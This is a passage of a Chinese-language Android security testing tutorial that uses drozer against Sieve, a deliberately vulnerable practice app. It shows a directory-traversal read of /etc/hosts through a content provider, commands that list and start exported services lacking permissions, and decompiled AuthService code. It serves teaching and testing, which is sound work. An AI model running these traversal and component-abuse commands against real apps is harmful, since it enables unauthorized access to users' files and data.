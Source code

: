 漏洞样例2 - 目录遍历
```
dz> run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts
127.0.0.1       localhost
::1             ip6-localhost
```

### service组件测试
拒绝服务；消息伪造；权限提升；劫持

service可以理解为没有UI的activity，我们在UI操作时，输入信息，点击按钮等操作，最终都会调用对应的业务代码。service也是类似，只不过不是用户直接与之交互，可以认为是一个幕后的角色，默默无闻提供服务。

查看目标app提供的服务的命令如下：

dz> run app.service.info -a com.mwr.example.sieve -i
```
Package: com.mwr.example.sieve
  com.mwr.example.sieve.AuthService
    Permission: null
  com.mwr.example.sieve.CryptoService
    Permission: null
```

启动service
```
dz> run app.service.start --component com.mwr.example.sieve com.mwr.example.sieve.AuthService
dz> run app.service.start --component com.mwr.example.sieve com.mwr.example.sieve.CryptoService
```

和broadcast receiver类似，挖掘service的漏洞，很大程度上都依赖代码审计。通过jadx-gui逆向查看app代码，可以看到AuthService服务实现流程如下
```
    private final class MessageHandler extends Handler {
        public MessageHandler(Looper looper) {
            super(looper);
        }

        public void handleMessage(Message msg) {
            int responseCode;
            int returnVal;
            int responseCode2;
            int responseCode3;
            int returnVal2;
            AuthService.this.responseHandler = msg.replyTo;
            Bundle returnBundle = (Bundle) msg.obj;
            switch (msg.what) {
                case 4:
                    if (!AuthService.this.checkKeyExists()) {
                        responseCode2 = 33;
                    } else if (AuthService.this.checkPinExists()) {
                        responseCode2 = 31;
                    } else {
                        responseCode2 = 32;
                    }
                    sendResponseMessage(3, responseCode2, 1, (Bundle) null);
                    return;
                case AuthService.MSG_CHECK /*2354*/:
                    if (msg.arg1 == AuthService.TYPE_KEY) {
                        responseCode3 = 42;
                        if (AuthService.this.verifyKey(returnBundle.getString("com.mwr.example.sieve.PASSWORD"))) {
                            AuthService.this.showNotification();
                            returnVal2 = 0;
                        } else {
                            returnVal2 = 1;
                        }
                    } else if (msg.arg1 == AuthService.TYPE_PIN) {
```
